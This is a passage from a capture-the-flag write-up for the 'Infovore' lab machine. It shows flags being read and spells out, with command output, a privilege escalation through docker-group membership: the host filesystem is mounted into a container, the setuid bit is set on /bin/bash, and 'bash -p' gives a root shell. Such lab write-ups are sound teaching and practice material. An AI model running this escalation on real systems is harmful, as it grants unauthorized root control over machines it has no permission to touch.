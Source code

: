 ```
admin@infovore:~$ ls
admin.txt
admin@infovore:~$ cat admin.txt 
FLAG{Escaped_from_D0ck3r}
admin@infovore:~$ 
```

At this point we have to do a thorough scan again, but one thing that caught my attention is that this machine is using docker and we try to list with the **id** command the groups of the admin user, bingo we found that the admin user is in the docker group

```
admin@infovore:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin),999(docker)
admin@infovore:~$ 
```

To become a **ROOT** we have to do the following

```
admin@infovore:~$ docker pull ubuntu:latest
latest: Pulling from library/ubuntu
9c704ecd0c69: Pull complete 
Digest: sha256:2e863c44b718727c860746568e1d54afd13b2fa71b160f5cd9058fc436217b30
Status: Downloaded newer image for ubuntu:latest

admin@infovore:~$ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu
864b7ba1b33099324215eb1688053f8a16fb951ea4aaf5b80fa21002e948e364

admin@infovore:~$ docker exec -it privesc bash
root@864b7ba1b330:/# chmod u+s /mnt/root/bin/bash
root@864b7ba1b330:/# exit
exit
```

Now we are **ROOT**

```
admin@infovore:~$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
 _____                             _       _                                              
/  __ \                           | |     | |                                             
| /  \/ ___  _ __   __ _ _ __ __ _| |_ ___| |                                             
| |    / _ \| '_ \ / _` | '__/ _` | __/ __| |                                             
| \__/\ (_) | | | | (_| | | | (_| | |_\__ \_|                                             
 \____/\___/|_| |_|\__, |_|  \__,_|\__|___(_)                                             
                    __/ |                                                                 
                   |___/                                                                  
__   __                                         _   _        __                         _ 
\ \ / /                                        | | (_)      / _|                       | |
 \ V /___  _   _   _ ____      ___ __   ___  __| |  _ _ __ | |_ _____   _____  _ __ ___| |
  \ // _ \| | | | | '_ \ \ /\ / / '_ \ / _ \/ _` | | | '_ \|  _/ _ \ \ / / _ \| '__/ _ \ |
  | | (_) | |_| | | |_) \ V  V /| | | |  __/ (_| | | | | | | || (_) \ V / (_) | | |  __/_|
  \_/\___/ \__,_| | .__/ \_/\_/ |_| |_|\___|\__,_| |_|_| |_|_| \___/ \_/ \___/|_|  \___(_)
                  | |                                                                     
                  |_|                                                                     
 
FLAG{And_now_You_are_done}

@theart42 and @4nqr34z
 
bash-4.3# 
```
